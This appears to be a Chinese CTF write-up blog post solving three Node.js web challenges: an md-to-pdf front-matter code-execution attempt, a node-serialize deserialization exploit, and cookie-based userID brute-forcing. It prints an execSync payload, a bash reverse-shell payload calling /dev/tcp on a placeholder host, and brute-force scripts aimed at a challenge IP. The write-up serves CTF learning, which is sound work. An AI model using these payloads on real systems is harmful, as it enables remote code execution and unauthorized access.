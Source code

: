 ```yaml
---
layout: post
title: js测验胡徜
categories: [blog ]
tags: [JavaScript,]
description: "测验"
image:
  feature: windows.jpg
  credit: Azeril
  creditlink: azeril.com
 


---
```


`测试`

![](/img/swirl/11.jpg)

## web1

题目是直接给出附件的，大概的功能就是一个md转pdf

网上搜了一下确实有漏洞

https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![image-20230928091608629](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928091608629.png)

![image-20230928092224117](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928092224117.png)

可是一直报错。。不理解

```java
{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"whoami\"))\n---RCE"}
```

## web2

一个js反序列化的题目

```java
var express = require('express');//这个就一个js文件
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var bodyParser = require('body-parser');
var app = express();
var path = require('path');
app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));
app.set('view engine', 'ejs');

app.get('/', (req,res) => {
	res.render('home.ejs');//渲染home.ejs
});

app.post('/', (req,res) => {
	res.render('loggedin.ejs')
});

app.get('/guest', function(req, res) {
   res.render('guest.ejs');
});

app.post('/guest', function(req, res) {
   if (req.cookies.guest) {//提取guest中的cookie
   	var str = new Buffer(req.cookies.guest, 'base64').toString();//base64加密
   	var obj = serialize.unserialize(str);//这里反序列化没太看懂
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username //输入username
	 var country = req.body.country  //输入country
 	 var city = req.body.city   // 输入city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
app.listen(process.env.PORT || 7777);
console.log("Listening on port 7777...");
```

很明显看出来就是一个serialize的问题

https://zhuanlan.zhihu.com/p/25581847

https://cloud.tencent.com/developer/article/1374840

payload

```
{"rce":"_$$ND_FUNC$$_function (){\n \t
require('child_process').exec('bash -c \"bash -i >&
/dev/tcp/4vps/4444 0>&1\"',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}  
```

## web3

```javascript
const express = require("express")
const cookieParser = require("cookie-parser")
const ejs = require("ejs")// 猜测漏洞是ejs模板的问题，然后flag再 env中
require("dotenv").config()

const app = express()
app.use(express.urlencoded({ extended: true }))
app.use(cookieParser())
app.set("view engine", "ejs")
app.use(express.static("public"))

const users = [//这里看着像定义用户信息之类的
    {
        userID: "972",
        username: "kupatergent",
        password: "gandal"
    },
    {
        userID: "****",
        username: "admin"
    }
]

app.get("/", (req, res) => {
    const admin = users.find(u => u.username === "admin")//这里获得的就是当前的对象
    //需要我们传一个userData名字的cookie
    if(req.cookies && req.cookies.userData && req.cookies.userData.userID) {//这是判断cookies中userData字段 继续userId
        const {userID, username} = req.cookies.userData//传送一个json

        if(req.cookies.userData.userID === admin.userID) //这里因为本来的userid就是不可见的
            res.render("home.ejs", {username: username, flag: process.env.FLAG})//这里如果满足才会出现flag
        else res.render("home.ejs", {username: username, flag: "no flag for you"})
    } else {
        res.render("unauth.ejs")
    }
})

app.route("/login")
.get((req, res) => {
    if(req.cookies.userData && req.cookies.userData.userID) {
        res.redirect("/")
    } else {
        res.render("login.ejs", {err: false})
    }
})
.post((req, res)=> {
    const request = {
        username: req.body.username,
        password: req.body.password
    }
    const user = users.find(u => (u.username === request.username && u.password === request.password))
    if(user) {
        res.cookie("userData", {userID: user.userID, username: user.username})
        res.redirect("/")
    } else {
        res.render("login", {err: true}) // didn't work!
    }
})

app.get("/logout", (req, res) => {
    res.clearCookie("userData")
    res.redirect("/login")
}) 

app.listen(3000, (err) => {
    if (err) console.log(err);
    else console.log("connected at 3000 :)");
})
```

流程非常简单

其实就是判断输入的cookie中的	userid是否和 管理员中的userid值相等，如果相等就会返回flag

看了看有没有原型链污染的漏洞，最后发现没有，所以尝试爆破userid



`一开始自己写的脚本` (不忍直视)

```python
import requests
a="0123456789"
for i in a :
    for j in a:
        for n in a:
            for m in a:

                 string={"username":"JYcxk","userID":i+j+n+m}
                 url="http://43.129.87.71:10003/"
                 res=requests.get(url=url,json=string)
                 if "{" in res.text:
                  print(res.text)
```

参考了以下✌的发现，需要先登陆看下cookie（源码给出了一个账号用来登陆）

```python
import requests
url="http://43.129.87.71:10003/"
for i  in range(100,1000):
    cookie={"userData":f"j%3A%7B%22userID%22%3A%22{i}%22%2C%22username%22%3A%22kupatergent%22%7D"}
    res=requests.get(url,cookies=cookie)
    if 'flag{' in res.text:
        print(res.text)
        break
```

![image-20230928161455123](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161455123.png)

```
j%3A%7B%22userID%22%3A%22{}%22%2C%22username%22%3A%22kupatergent%22%7D
```

![image-20230928161903282](C:\Users\c'x'k\AppData\Roaming\Typora\typora-user-images\image-20230928161903282.png)

![image-20231003135457779](\img\final\image-20231003135457779.png)